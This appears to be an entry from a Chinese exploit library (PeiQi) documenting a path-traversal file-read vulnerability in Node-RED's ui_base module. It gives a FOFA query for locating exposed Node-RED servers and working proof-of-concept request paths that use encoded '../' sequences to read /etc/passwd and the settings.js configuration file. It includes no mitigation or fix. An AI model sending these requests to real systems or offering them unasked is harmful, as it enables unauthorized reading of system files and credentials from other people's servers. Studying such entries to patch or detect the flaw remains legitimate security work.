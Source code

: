```yaml
---
title: Node-RED ui_base 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - Node-RED
---
```


# Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

> [!NOTE]
>
> Node-RED

## FOFA

> [!NOTE]
>
> title="Node-RED"

## 漏洞复现

访问页面

![image-20210701185722667](/img/20210924020250409233.png)

验证POC

```
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![image-20210701185812622](/img/20210924020250699479.png)

![image-20210704171045540](/img/20210924020251265820.png)